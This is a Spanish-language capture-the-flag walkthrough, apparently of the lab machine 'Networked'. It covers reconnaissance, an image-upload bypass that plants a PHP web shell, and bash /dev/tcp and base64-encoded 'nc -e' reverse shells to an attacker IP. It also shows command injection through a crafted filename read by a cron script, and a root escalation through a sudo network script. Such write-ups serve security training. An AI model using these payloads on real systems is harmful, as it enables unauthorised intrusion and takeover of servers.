# Networked

```bash
sudo nmap -p- --open -T5 -sCV --min-rate 5000 -n -Pn 10.129.4.216 -oN scanNmap.txt
```



- Launchpad -> Sid
-
```bash
whatweb http://10.129.4.216
```

http://10.129.4.216 [200 OK] Apache[2.4.6], Country[RESERVED][ZZ], HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.4.16], IP[10.129.4.216], PHP[5.4.16], X-Powered-By[PHP/5.4.16]
-
```bash
sudo nmap --script http-enum 10.129.4.216
```



- 80



```bash
gobuster dir -u http://10.129.4.216 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x html,php,txt
```



- /backup



Descomprimimos el archivo y encontramos código fuente de la pag



- /photos.php



- /upload.php



Podemos subir un archivo, además tenemos el código fuente en el archivo de backup

- Vemos que dentro de *upload.php*, se usan funciones de *lib.php* **check_file_type()**



Comprueba que el mimetype empiece por "image/" (es decir devuelve posición 0)



Para comprobar el mimetype usa una regex

- Intentaremos captar la petición con Burp para cambiar el tipo y contenido mime-type del archivo
Cambiamos
- Content-Type: image/jpg poniendo como última extensión el jpg
- Añadimos *GIF8* delante para que lo interprete como un gif



La respuesta es correcta



- En upload.php vemos que el dir donde se suben los archivos */uploads/*



Si lo buscamos en la web



Parece que lo encuentra pero no lista nada

- Analizamos los archivos lib.php y upload.php



- explode(): divide en un array [] por el separador '.'
- array_shift(): se queda con el primer objeto
- str_replace(): cambia '\_' por '.'
- implode (): vuelve a unir los objetos en un array y pone un '.' entre ellos
Luego para *shell.php.jpg*
- $name: *shell* -> **\$foo**
- $ext: *php.jpg* -> **\$ext**



- No hacía falta tanto estudio porque lo sube a photos y ya te da el nombre del archivo



Además nos interpreta el
```bash
echo hola
```

con php



- Subimos una shell



- Ejecutamos el RCE
```bash
http://10.129.5.207/uploads/10_10_14_96.php.jpg?cmd=whoami
```



Esto se debe a que por *AddHandler* cualquier archivo que contenga .php va a ser interpretado



- Nos lanzamos la bash
De la forma normal no funciona, por lo que la urlencodeamos
```bash
bash -c 'bash -i >&/dev/tcp/10.10.14.96/443 0>&1'
bash%20%2Dc%20%27bash%20%2Di%20%3E%26%2Fdev%2Ftcp%2F10%2E10%2E14%2E96%2F443%200%3E%261%27
```



apache

## Escalada

- Dos usuarios **guly** y **root**
-
```bash
sudo -l
```

nada
- SUID -> nada
- Hay un proceso cron dentro del usuario guly que activa un script *check_attack.php*
Parece que lo realiza cada 3 min



Y esto es lo que hace el script cron



- Vemos que hay un puerto abierto localmente el 25, que parece que envia mails por ESMPT



- Si intentamos capturar el proceso cron con el script
```
cleanup() {
echo
echo "[!] Saliendo..."
exit 0
}

trap cleanup SIGINT

old_process="$(ps -eo user,command)"

while true; do
new_process="$(ps -eo user,command)"

diff <(echo "$old_process") <(echo "$new_process") | grep "[\<\>]" | grep -vE "kworker|process_monitor"

old_process="$new_process"

sleep 1
done
```
Vemos un proceso cron que ejecuta el *check_attack.php*



Consultando el código de *check_attack.php* vemos que considera como ataque la aparición de un archivo dentro del escaneo realizado en */var/www/html/uploads/* cuyo [0] sea nulo, es decir, que devuelva false la función **check_ip()** (porque !false es true, por lo que hará el resto de lógica de exec(), etc). Para esto será necesario que la parte de la IP en el nombre del archivo subido sea inválida, por ejemplo en lugar de ser *10_10_14_96.php.jpg* que sea *test.php.jpg*
Si probamos a ejecutar el detector de cron de nuevo:



Vemos que se envia un mail con una especie de código
64SFKgqT017167
64SGJLRs004945
No va por ahí

- Haremos pruebas ejecutando nosotros el script sin esperar a que lo haga el cron
Nos detecta que es un ataque ya que no sigue el formato de "ip.extension"



- podremos inyectar código en
```bash
rm -f /var/www/html/uploads/test; whoami
```

Siendo **$value** el nombre del archivo, podremos crear un archivo que termine en *;* y seguidamente añadir otro comando para que lo interprete

- Vamos a intentar ver el output mandando el resultado a un archivo en tmp, además nos dará error al poner las / del directorio por lo que lo base64 encodearemos
La instrucción después del ";" será
```bash
echo -n "whoami > /tmp/test" | base64
```

-n: quitar salto de línea del final



Ahora tendremos que crear el archivo que detectará como ataque con un echo para decodificarlo con "base64 -d" y finalmente que lo interprete con un " | bash"
```bash
touch "test; echo d2hvYW1pID4gL3RtcC90ZXN0 | base64 -d | bash"
```

Ejecutamos el cron
```bash
php /home/guly/check_attack.php
```

Y vemos que vuelca en */tmp/test* el resultado del **whoami**



Es apache porque lo hemos forzado nosotros, pero cuando salte solo, será ejecutado por *guly*

- Haremos lo mismo pero para lanzarnos una bash
```bash
echo -n "nc -e /bin/bash 10.10.14.96 4444" | base64
```



```bash
touch "test; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0Ljk2IDQ0NDQ= | base64 -d | bash"
```

- Nos ponemos a la escucha
```bash
nc -nlvp 4444
```

- Cuando pasan los 3 min nos da la shell como guly



guly

```bash
sudo -l
```



*/usr/local/sbin/changename.sh*



- Ejecuta el programa con permisos privilegiados */bin/bash -p*
- Lo que hace es escribir en el archivo */etc/sysconfig/network-scripts/ifcfg-guly* siempre y cuando el input del usuario cumpla la regex "letras y numeros + _ + espacio + -"

- El archivo en el que escribe es



- Ejecutando con sudo el archivo y añadiendo inputs que cumplen la regex modificamos el archivo
```bash
sudo /usr/local/sbin/changename.sh
```



Vemos que busca como comando lo que va despues del espacio en los nombres introducidos, en este caso los "-"

- Intentaremos que ejecute algún comando
Nos ejecuta *whoami*, *id*, *ifconfig* y *ps*



- ponemos en uno de los inputs **/bin/bash**
root
